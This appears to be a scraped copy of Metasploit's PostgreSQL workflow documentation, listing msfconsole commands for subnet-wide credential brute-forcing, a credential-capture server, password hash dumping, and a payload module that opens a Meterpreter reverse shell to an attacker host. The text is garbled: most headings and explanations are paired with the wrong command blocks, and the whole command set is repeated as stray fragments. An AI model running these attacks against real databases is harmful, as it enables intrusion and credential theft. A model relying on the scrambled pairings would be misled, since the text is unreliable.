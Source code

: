 ## PostgreSQL Workflows
There are more modules than listed here, for the full list of modules run the `search` command within msfconsole:
```msf
msf6 > search postgres
```

Or to search for modules that work with a specific session type:
```msf
msf6 > search session_type:postgres
```

### Lab Environment
When testing in a lab environment PostgreSQL can either be installed on the host machine or within Docker:
```
use auxiliary/scanner/postgres/postgres_version
run postgres://192.168.123.13
run postgres://postgres:password@192.168.123.13
```

### PostgreSQL Enumeration
Enumerate version:
```
use auxiliary/scanner/postgres/postgres_login
run 'postgres://root: a b c p4$$w0rd@127.0.0.1'
```

### PostgreSQL Login / Bruteforce
If you have PostgreSQL credentials to validate:
```
use auxiliary/scanner/postgres/postgres_login
run cidr:/24:myspostgresl://user:pass@192.168.222.0 threads=50
```

Re-using PostgreSQL credentials in a subnet:
```
use auxiliary/scanner/postgres/postgres_login
run postgres://user:pass@192.168.123.6:2222
```

Using an alternative port:
```
use auxiliary/scanner/postgres/postgres_login
run postgres://known_user@192.168.222.1 threads=50 pass_file=./wordlist.txt
```

Brute-force host with known user and password list:
```
use auxiliary/scanner/postgres/postgres_login
run postgres://192.168.222.1 threads=50 user_file=./users.txt pass_file=./wordlist.txt
```

Brute-force credentials:
```
use auxiliary/scanner/postgres/postgres_login
run cidr:/24:postgres://user:pass@192.168.222.0 threads=50
run cidr:/24:postgres://user@192.168.222.0 threads=50 pass_file=./wordlist.txt
```

Brute-force credentials in a subnet:
```msf
msf6 auxiliary(scanner/postgres/postgres_login) > run rhost=127.0.0.1 rport=5432 username=postgres password=password database=template1 createsession=true
```

### Obtaining an Interactive Session
For example:
```msf
[+] 127.0.0.1:5432 - Login Successful: postgres:password@template1
[*] PostgreSQL session 1 opened (127.0.0.1:61324 -> 127.0.0.1:5432) at 2024-03-15 14:00:12 -0500
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Should yield:
```msf
msf6 auxiliary(scanner/postgres/postgres_login) > sessions

Active sessions
===============

  Id  Name  Type        Information                           Connection
  --  ----  ----        -----------                           ----------
  1         postgresql  PostgreSQL postgres @ 127.0.0.1:5432  127.0.0.1:61324 -> 127.0.0.1:5432 (127.0.0.1)

msf6 auxiliary(scanner/postgres/postgres_login) > sessions -i 1
[*] Starting interaction with 1...
```

Use the help command for more info.
```
use auxiliary/server/capture/postgresql
run
```

When interacting with a session, the help command can be useful:
```msf
msf6 auxiliary(server/capture/postgresql) >
[*] Started service listener on 0.0.0.0:5432
[*] Server started.
[+] PostgreSQL LOGIN 127.0.0.1:60406 postgres / mysecretpassword / postgres
```

Once you've done that, you can run any Postgres query against the target using the `query` command:
```
use auxiliary/scanner/postgres/postgres_hashdump
run postgres://postgres:password@192.168.123.13
run postgres://postgres:password@192.168.123.13/database_name
```

Alternatively you can enter a SQL prompt via the `query_interactive` command which supports multiline commands:
```
use auxiliary/scanner/postgres/postgres_schemadump
run postgres://postgres:password@192.168.123.13
run postgres://postgres:password@192.168.123.13 ignored_databases=template1,template0,postgres
```

### PostgreSQL Capture Server
Captures and log PostgreSQL credentials:
```
use auxiliary/admin/postgres/postgres_sql
run 'postgres://user:this is my password@192.168.1.123/database_name' sql='select version()'
```

For example, if a client connects with:
```
use exploit/linux/postgres/postgres_payload
run postgres://postgres:password@192.168.123.6 lhost=192.168.123.1 lport=5000 payload=linux/x64/meterpreter/reverse_tcp target='Linux\ x86_64'
```

`msf
msf6 > search postgres
`

`msf
msf6 > search session_type:postgres
`

`
use auxiliary/scanner/postgres/postgres_version
run postgres://192.168.123.13
run postgres://postgres:password@192.168.123.13
`

`
use auxiliary/scanner/postgres/postgres_login
run 'postgres://root: a b c p4$$w0rd@127.0.0.1'
`

`
use auxiliary/scanner/postgres/postgres_login
run cidr:/24:myspostgresl://user:pass@192.168.222.0 threads=50
`

`
use auxiliary/scanner/postgres/postgres_login
run postgres://user:pass@192.168.123.6:2222
`

`
use auxiliary/scanner/postgres/postgres_login
run postgres://known_user@192.168.222.1 threads=50 pass_file=./wordlist.txt
`

`
use auxiliary/scanner/postgres/postgres_login
run postgres://192.168.222.1 threads=50 user_file=./users.txt pass_file=./wordlist.txt
`

`
use auxiliary/scanner/postgres/postgres_login
run cidr:/24:postgres://user:pass@192.168.222.0 threads=50
run cidr:/24:postgres://user@192.168.222.0 threads=50 pass_file=./wordlist.txt
`

`msf
msf6 auxiliary(scanner/postgres/postgres_login) > run rhost=127.0.0.1 rport=5432 username=postgres password=password database=template1 createsession=true
`

`msf
[+] 127.0.0.1:5432 - Login Successful: postgres:password@template1
[*] PostgreSQL session 1 opened (127.0.0.1:61324 -> 127.0.0.1:5432) at 2024-03-15 14:00:12 -0500
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
`

`msf
msf6 auxiliary(scanner/postgres/postgres_login) > sessions

Active sessions
===============

  Id  Name  Type        Information                           Connection
  --  ----  ----        -----------                           ----------
  1         postgresql  PostgreSQL postgres @ 127.0.0.1:5432  127.0.0.1:61324 -> 127.0.0.1:5432 (127.0.0.1)

msf6 auxiliary(scanner/postgres/postgres_login) > sessions -i 1
[*] Starting interaction with 1...
`

`
use auxiliary/server/capture/postgresql
run
`

`msf
msf6 auxiliary(server/capture/postgresql) >
[*] Started service listener on 0.0.0.0:5432
[*] Server started.
[+] PostgreSQL LOGIN 127.0.0.1:60406 postgres / mysecretpassword / postgres
`

`
use auxiliary/scanner/postgres/postgres_hashdump
run postgres://postgres:password@192.168.123.13
run postgres://postgres:password@192.168.123.13/database_name
`

`
use auxiliary/scanner/postgres/postgres_schemadump
run postgres://postgres:password@192.168.123.13
run postgres://postgres:password@192.168.123.13 ignored_databases=template1,template0,postgres
`

`
use auxiliary/admin/postgres/postgres_sql
run 'postgres://user:this is my password@192.168.1.123/database_name' sql='select version()'
`

`
use exploit/linux/postgres/postgres_payload
run postgres://postgres:password@192.168.123.6 lhost=192.168.123.1 lport=5000 payload=linux/x64/meterpreter/reverse_tcp target='Linux\ x86_64'
`

